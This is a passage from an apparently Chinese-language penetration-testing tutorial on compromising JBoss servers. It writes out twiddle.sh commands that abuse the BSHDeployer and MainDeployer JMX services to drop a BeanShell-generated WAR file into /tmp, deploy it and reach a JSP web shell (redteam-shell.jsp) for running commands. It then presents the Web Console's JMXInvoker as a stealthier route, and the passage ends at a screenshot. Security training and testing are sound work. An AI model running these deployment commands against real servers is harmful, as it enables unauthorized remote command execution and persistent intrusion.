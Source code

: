 利用 twiddle，可以使用 DSHDeployer 的 createScriptDeployement()方法：

```
$ ./twiddle.sh -s scribus invoke jboss.deployer:service=BSHDeployer createScriptDeployment "‘cat redteam.bsh‘" redteam.bsh 
```

tedteam.bsh 包含上面的 BeanShell 脚本，调用成功后 JBoss 服务器返回 BeanShell 创建的临时文件地址：

```
file:/tmp/redteam.bsh55918.bsh 
```

当 BeanShell 脚本执行部署后，会创建/tmp/redteam.war 文件，现在就可以通过调用本地文件来部署了：

```
$ ./twiddle.sh -s scribus invoke jboss.system:service=MainDeployer deploy file:/tmp/redteam.war 
```

之后就可以访问 redteam-shell.jsp 来执行命令了。

#### Web Console Invoker

通过 JMX 控制台与 RMI 来控制 JBoss 服务器是最常用的方法。

除了这些还有更隐蔽的接口，其中之一就是 Web 控制台中使用 JMXInvoker。

##### Web 控制台

Web 控制台与 JMX 控制台类似，也可以通过浏览器访问。

Web 控制台的默认界面：

![enter image description here](img/img8_u92_png.jpg)
